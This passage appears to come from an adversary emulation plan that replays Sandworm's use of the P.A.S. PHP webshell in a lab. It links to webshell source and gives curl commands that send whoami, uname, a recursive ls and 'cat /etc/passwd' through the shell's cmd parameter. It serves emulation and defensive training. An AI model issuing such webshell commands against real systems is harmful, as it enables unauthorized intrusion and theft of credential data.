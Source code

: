 [Source Code](../../Resources/phpWebShell/webShell.php)

[Source Code - Obfuscated](../../Resources/phpWebShell/obfuscated_webShell.php)

### :microscope: Cited Intelligence

* <https://www.us-cert.gov/ics/alerts/IR-ALERT-H-16-056-01>

* <https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf>

<br>

## Step 12 - Initial Discovery

:microphone: `voice track`

Sandworm enumerates information about the compromised system by issuing shell commands through the PHP webshell.

Executed commands include whoami, uname, ls, among others.

### ☣️ Procedures

Execute `whoami` from P.A.S. webshell.

```bash
# Sandworm Team has collected the username from a compromised host.

curl --insecure "https://10.0.1.5/search.php?cmd=whoami"
```

:information_source: The '--insecure' option is used so that curl ignores self-signed certificate warnings. Self-signed certificates are used on host Caladan/10.0.1.5 for the scenario.

Execute `uname -a` from P.A.S. webshell.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

curl --insecure "https://10.0.1.5/search.php?cmd=uname+-a"
```

Execute `ls -lsahR` from P.A.S. webshell.

```bash
# Sandworm Team has enumerated files on a compromised host.

# P.A.S. Webshell has the ability to list files and file characteristics including extension, size, ownership, and permissions.

curl --insecure "https://10.0.1.5/search.php?cmd=ls+-lsahR+/"
```

Execute `cat /etc/passwd` from P.A.S. webshell.

```bash
# P.A.S. Webshell can display the /etc/passwd file on a compromised host.

curl --insecure "https://10.0.1.5/search.php?cmd=cat+/etc/passwd"
```
